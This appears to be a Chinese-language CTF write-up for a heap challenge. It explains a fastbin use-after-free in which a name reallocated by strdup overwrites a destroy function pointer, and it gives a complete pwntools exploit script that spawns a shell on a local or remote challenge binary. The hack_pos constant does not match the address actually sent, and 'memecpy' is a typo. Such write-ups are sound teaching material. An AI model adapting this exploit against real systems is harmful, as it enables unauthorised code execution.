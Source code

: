 # level2
### 思路
1. pool数组中每个元素指向一个大小为0x38的堆块，其中0x30处指向的是destory函数，其功能是free堆块。只要能修改这个地址为hack，free的时候就可以调用shell。
2. 不管我们输多少，add_node()都会将最后8个bytes覆盖为desstory。add_note,delete_note,则这个堆块会被放到fastbin中.
3. editname中，会把传入的name进行strdup()操作，这个函数执行如下操作，
```
char *strdup(const char *s)
{
   size_t  len = strlen(s) +1;
   void *new = malloc(len);
   if (new == NULL)
      return NULL;
   return (char *)memecpy(new,s,len);
}

```
因此，只要name的长度大小合适，将重新malloc到第二步free的堆块，这时，就可以覆盖destory为hack了
4.再次free刚刚分配的堆块，就会调用hack

### exp
```python
from pwn import *
context.log_level="debug"
pwn_file="./level2-fastbin"
elf=ELF(pwn_file)

if len(sys.argv)==1:
    r=process(pwn_file)
    pid=r.pid
else:
    r=remote("pwn.sixstars.team",22502)
    pid=0

def debug():
    log.debug("process pid:%d"%pid)
    pause()

hack_pos = 0x400826

def editname(name=""):
    r.recvuntil(">> ")
    r.sendline("4")
    r.recvuntil("Your name:")
    r.sendline(name)

def addnote(content = ''):
    r.recvuntil(">> ")
    r.sendline("1")
    r.recvuntil("Content: ")
    if content:
      r.sendline(content)
    else:
      r.sendline('abc')
    nid =  r.recvline("Note id:")
    return nid[-2:-1]

def deletenote(nid):
    r.recvuntil(">> ")
    r.sendline("3")
    r.recvuntil("Input your id:")
    r.sendline(nid)

r.recvuntil('Your name:')
r.sendline("www")

a= addnote()
deletenote(a)
editname("a"*48 + p64(0x4008B6)[:6])
deletenote(a)

r.interactive()
```